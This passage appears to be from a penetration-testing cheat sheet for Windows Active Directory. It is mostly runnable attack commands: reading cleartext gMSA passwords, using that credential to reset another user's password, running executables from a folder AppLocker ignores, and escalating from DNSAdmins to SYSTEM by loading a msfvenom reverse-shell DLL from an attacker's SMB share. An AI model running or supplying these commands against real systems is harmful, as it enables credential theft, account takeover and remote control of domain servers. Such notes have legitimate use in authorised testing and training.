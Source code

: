[https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)

```bash
$gmsa = Get-ADServiceAccount -Identity <gmsa_acc> -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$mp1 = ConvertFrom-ADManagedPasswordBlob $mp
```

[https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe)

```bash
.\GMSAPasswordReader.exe --accountname svc_apache
```

### Change domain user password (PowerShell PS Script)

```bash
$user = 'WEB$'
$passwd = $mp1.'CurrentPassword'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = new-object system.management.automation.PSCredential $user,$secpass
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity
tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!'
-force)} -Credential $cred
```

### Bypass Applocker & Convenant

You can just run your executables directly at the following location (AppLocker wouldn’t prevent anything that executes in that location)

```bash
C:\Windows\System32\spool\drivers\color
```

### DNSAdmins to SYSTEM

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kali_ip LPORT=443 -f dll > wtv.dll
```

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \\$kali_ip\EVILSHARE\wtv.dll
```

```bash
sc.exe stop dns
```

```bash
sc.exe start dns
```

## Tools

### Wine Error
